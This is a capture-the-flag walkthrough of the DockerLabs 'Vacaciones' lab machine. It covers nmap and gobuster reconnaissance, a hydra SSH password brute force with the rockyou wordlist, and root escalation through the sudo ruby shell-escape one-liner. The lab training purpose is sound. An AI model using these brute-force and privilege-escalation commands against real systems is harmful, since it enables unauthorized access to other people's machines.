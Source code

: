 # Vacaciones

[🔗 DockerLabs.es](https://dockerlabs.es/#/)

&#x20;[🔗](https://dockerlabs.es/#/) [How to setup a Docker Image ](https://dockerlabs.es/assets/instrucciones\_de\_uso.pdf)

<details>

<summary>CTF BootToRoot</summary>

A **CTF** (Capture The Flag) **Boot To Root** (B2R) is a type of cybersecurity challenge where participants are tasked with gaining unauthorized access to a computer system (the "Boot" part) and then obtaining and eventually capturing a specific flag or set of flags (the "Root" part). The flags could be strings of text, files, or other data that prove the participant has successfully compromised the system.

In these challenges, participants typically start with minimal information about the target system and have to use various techniques, including vulnerability analysis, exploitation, privilege escalation, and more, to gain access and ultimately root access to the system. The challenges often simulate real-world scenarios and are designed to test participants' skills in penetration testing, exploit development, reverse engineering, and other cybersecurity domains. They can be hosted online or in-person as part of cybersecurity competitions, training events, or educational exercises.

</details>

## Task 1 - Deploy the machine

Install docker.io (if you do not already have it installed) -> `sudo apt install docker.io`

Download machine from DockerLabs website and setup lab:

* `unzip vacaciones``.zip`
* `sudo bash auto_deploy.sh vacaciones.tar`

<div align="left">

<figure><img src="../.gitbook/assets/image (266).png" alt=""><figcaption></figcaption></figure>

</div>

and we obtained IP machine -> 🎯 Target IP: `172.17.0.2`

We can put the IP in the file to associate it with an easier to remember name:

<pre class="language-bash"><code class="lang-bash">su
<strong>echo "172.17.0.2 vacaciones" >> /etc/hosts
</strong></code></pre>

Create a directory for machine on a dedicated folder and subdir containing: nmap,content,exploits,scripts

<pre class="language-bash"><code class="lang-bash"><strong>mkdir -p DockerLabs/vacaciones
</strong>cd DockerLabs/vacaciones
<strong>mkdir {nmap,content,exploits,scripts}
</strong><strong>
</strong># At the end of the Lab
CTRL + C #To stop running machine

<strong>sed -i '$ d' /etc/hosts # To clean up the last line from the /etc/hosts file
</strong><strong>
</strong># To repair potential problem during activities
sudo systemctl restart docker
sudo docker stop $(docker ps -q)
sudo docker container prune -force
</code></pre>

## Task 2 - Reconnaissance and Exploitation

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 vacaciones
64 bytes from upload (172.17.0.2): icmp_seq=1 ttl=64 time=0.086 ms
64 bytes from upload (172.17.0.2): icmp_seq=2 ttl=64 time=0.034 ms
64 bytes from upload (172.17.0.2): icmp_seq=3 ttl=64 time=0.040 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system, while Windows systems usually have a TTL of 128 secs.

### 2.1 Ports in listening and relative services

Of course, we start looking for information about our target by scanning the open ports with the nmap tool

```bash
nmap -Pn -n -p0- vacaciones
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

There're two open port (22, 80), analyze them searching more info about services version and potential vulns:

```bash
nmap -A -sVC -p 22,80 vacaciones -oN nmap/port_scan
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>Pn</td><td>no ping</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

As always we begin our exploration from port 80, where we know there is a web server, so we execute the whatweb command to extract more information and then view the content using the browser

```bash
whatweb http://vacaciones
```

<figure><img src="../.gitbook/assets/image (272).png" alt=""><figcaption></figcaption></figure>

The Apache version is older and vulnerable, we can verify it using searchsploit tool:

<div align="left">

<figure><img src="../.gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>

</div>

<div align="left">

<figure><img src="../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

</div>

Let's display the default Apache page, there's a blank page, try analysing the source page with CTRL+U

<figure><img src="../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

We discover this information disclosure regarding two hypotetic usernames: Juan and Camilo, we'll use them later to try brute force attack via ssh (22).

<figure><img src="../.gitbook/assets/image (267).png" alt=""><figcaption></figcaption></figure>

### 2.2 Brute force hidden web directory

Continuing, we try to find potential hidden directory using gobuster:

```bash
gobuster dir -u http://vacaciones -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (268).png" alt=""><figcaption></figcaption></figure>

We only find a web dir (/javascript), but going on it we haven't permission to access. &#x20;

<div align="left">

<figure><img src="../.gitbook/assets/image (269).png" alt=""><figcaption></figcaption></figure>

</div>

### 2.3 Brute force ssh credentials

Remembering that we've two pontetial username and the port 22 (SSH) opened, not knowing the password we could try a brute force attack with hydra.

I save the two usernames into a txt file: `echo -e "camilo\njuan" >> users.txt`

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt vacaciones ssh
```

<div align="left">

<figure><img src="../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

</div>

Fantastic, we discovered the password, we use it to log in via SSH with the following command: `ssh camilo@vacaciones`

<div align="left">

<figure><img src="../.gitbook/assets/image (276).png" alt=""><figcaption></figcaption></figure>

</div>

## Task 3 - Privilege Escalation

Now that we are inside, since we are not root user we need to elevate our privileges, but we can't retrieve good info using `sudo -l` because we're not into sudoers

<div align="left">

<figure><img src="../.gitbook/assets/image (277).png" alt=""><figcaption></figcaption></figure>

</div>

Remember the information disclosure, we try to find email locally `find / -type f -name "*.txt" 2>/dev/null`

<div align="left">

<figure><img src="../.gitbook/assets/image (278).png" alt=""><figcaption></figcaption></figure>

</div>

and we retrieve the mail message that we are searching.

<div align="left">

<figure><img src="../.gitbook/assets/image (279).png" alt=""><figcaption></figcaption></figure>

</div>

We know that ther're three users, then we can try to log in with each

&#x20;![](<../.gitbook/assets/image (282).png>)

<div align="left">

<figure><img src="../.gitbook/assets/image (281).png" alt=""><figcaption></figcaption></figure>

</div>

Very good, password works for juan!

And user `sudo -l` we see that juan user has root permissions for /usr/bin/ruby, then we can use [gtfobins](https://gtfobins.github.io/gtfobins/ruby/) to find it.

{% embed url="https://gtfobins.github.io/gtfobins/ruby/" %}

<figure><img src="../.gitbook/assets/image (280).png" alt=""><figcaption></figcaption></figure>

using ruby sudo command, we obtain a root permission `sudo ruby -e 'exec "/bin/sh"'`

<div align="left">

<figure><img src="../.gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>

</div>
